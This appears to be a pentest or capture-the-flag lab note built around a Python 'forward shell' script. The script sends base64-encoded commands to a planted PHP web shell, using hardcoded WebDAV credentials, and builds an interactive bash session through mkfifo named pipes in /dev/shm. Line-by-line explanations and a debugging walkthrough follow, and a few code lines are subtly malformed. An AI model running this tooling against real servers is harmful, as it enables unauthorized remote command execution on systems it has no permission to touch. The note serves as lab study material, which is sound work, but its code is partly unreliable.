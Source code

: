 ````
#!/usr/bin/python3

import requests
import sys
import pdb
import signal
from random import randrange
from base64 import b64encode

def def_handler(sig, frame):
    print("\n\n[!] Quitting...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

#mkfifo input; tail -f input | /bin/sh 2>&1 > output

#GLobal variables
main_url = "http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/cmd.php"
global stdin, stdouti
session = randrange(1, 9999)
stdin = "/dev/shm/stdin.%s" % session
stdout = "/dev/shm/stdout.%s" % session

def RunCMD(command):
   
    command = b64encode(command.encode()).decode()

    post_data = {
            'cmd' : 'echo "%s" | base64 -d | bash' % command
    }
    r = requests.post(main_url, data=post_data, timeout=2)

    return r.text

def WriteCMD(command):
	command = b64encode(command.encode()).decode()
    post_data = {
            'cmd' : 'echo "%s" | base64 -d > %s' % (command, stdin)
            }
    r = requests.post(main_url, data=post_data, timeout=2)

    return r.text

def ReadCMD():
    ReadTheOutput = """/bin/cat %s""" % stdout

    response = RunCMD(ReadTheOutput)

    return response


def SetupShell():
    NamedPipes = """mkfifo %s; tail -f %s | /bin/bash 2>&1 > %s""" % (stdin, stdin, stdout)
    try:
        RunCMD(NamedPipes)
    except:
        None

    return None

SetupShell()

if __name__ == '__main__':
    while True:
        command = input(">")
        WriteCMD(command + "\n")
        response = ReadCMD()

        print(response)
        ClearTheOutput = """echo '' > %s""" %stdout
        RunCMD(ClearTheOutput)
````

### Explanation
1. **Imports**:
    
    - `requests`: Library for making HTTP requests.
    - `sys`: Provides access to some variables used or maintained by the Python interpreter and to functions that interact with the interpreter.
    - `pdb`: Python Debugger module.
    - `signal`: Allows defining and handling signal events.
    - `randrange`: Generates a random integer within a specified range.
    - `b64encode`: Function to encode bytes-like objects using Base64 encoding.
2. **Signal Handler** (`def_handler`):
    
    - Defines a signal handler function to handle the SIGINT signal (Ctrl+C). Upon receiving SIGINT, it prints a message and exits the script.
3. **Global Variables**:
    
    - `main_url`: The URL of the web shell (`cmd.php`) hosted on the target server.
    - `session`: A random session ID used to create unique named pipes.
    - `stdin`: Path to the named pipe used for input.
    - `stdout`: Path to the named pipe used for output.
4. **Function Definitions**:
    
    - `RunCMD(command)`: Executes a command on the web shell and returns the output.
    - `WriteCMD(command)`: Writes a command to the input named pipe (`stdin`) for execution.
    - `ReadCMD()`: Reads the output from the output named pipe (`stdout`).
    - `SetupShell()`: Sets up a shell by creating named pipes and executing a command to continuously feed input to the web shell and capture output.
5. **SetupShell**:
    
    - Creates named pipes (`stdin` and `stdout`) using `mkfifo` and sets up a command (`tail -f`) to continuously feed input from `stdin` to the web shell and capture output to `stdout`.
6. **Main Execution**:
    
    - Inside the main block, an infinite loop is started to continuously prompt the user for commands.
    - Each command entered by the user is written to the input named pipe (`stdin`) using `WriteCMD`.
    - The output from the web shell is read from the output named pipe (`stdout`) using `ReadCMD`.
    - The output is then printed, and the output named pipe is cleared.

### Use of /dev/shm
The script creates two named pipes (FIFOs) in `/dev/shm`, named `stdin.<session>` and `stdout.<session>`. These pipes serve as temporary files for storing standard input and output for commands executed through the web shell.

Overall, this script provides a simple command-line interface for remotely executing commands on a target server via a web shell. It leverages named pipes for bidirectional communication with the web shell, allowing the user to send commands and receive output in real-time.
## Script construction:

In this part of the code, we set the mkfifo structure, we are considering the base64 encoding and testing if stdin.*randon_value* woks with debugger pdb

`#!/usr/bin/python3`

`import requests`
`import sys`
`import pdb`
`import signal`
`from random import randrange`
`from base64 import b64encode`

`def def_handler(sig, frame):`
    `print("\n\n[!] Quitting...\n")`
    `sys.exit(1)`

`#Ctrl+C`
`signal.signal(signal.SIGINT, def_handler)`

`#GLobal variables`
`main_url = "http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/cmd.php"`
`global stdin, stdout`
`session = randrange(1, 9999)`
`stdin = "/dev/shm/stdin.%s" % session`
`stdout = "/dev/shm/stdout.%s" % session`

`pdb.set_trace()` *debugger will stop here. with l we list the variables and with p stdin, we verify the value of this in that moment*

`def RunCMD(command):`
   
    `command = b64encode(command.encode()).decode()`

    `post_data = {`
            `'cmd' : '%s "%s" | base64 -d | bash' % command`
    `}`
    `r = requests.post(main_url, data=post_data)`
    
    `return r.text`

`def SetupShell():`
    `NamedPipes = """mkfifo input; tail -f input | /bin/bash 2>&1 > output"""`

`if __name__ == '__main__':`
    `while True:`
        `command = input(">")`
        `RunCMD(command)`

![[Pasted image 20240401140643.png]]

# Mkfifo

`mkfifo input; tail -f input | /bin/sh 2>&1 > output`

1. **`mkfifo input`**: This command creates a named pipe named `input`. Named pipes are special types of files that act as communication channels between processes. The `mkfifo` command creates the named pipe file in the current directory.
    
2. **`tail -f input`**: This command uses `tail` to continuously read data from the named pipe `input`. The `-f` option tells `tail` to follow the end of the file (or in this case, the named pipe), continuously displaying new lines as they are written to the pipe.
    
3. **`| /bin/sh`**: The output from `tail -f input` is piped (`|`) to the shell (`/bin/sh`). This means that the data read from the named pipe is passed as input to the shell process, allowing the shell to execute the commands received from the named pipe.
    
4. **`2>&1 > output`**: This part of the command sequence redirects the output (including any error messages) generated by the shell to a file named `output`. The `2>&1` redirects standard error (file descriptor 2) to the same location as standard output (file descriptor 1), effectively merging error messages with regular output. Then, `> output` redirects the merged output to the file named `output`, storing the results of the commands executed by the shell.
    

Overall, this command sequence creates a named pipe (`input`), continuously reads data from it using `tail`, passes the data to a shell process (`/bin/sh`), and redirects the output of the shell (including errors) to a file named `output`. This can be used to interactively execute commands in the shell and capture their output in a file.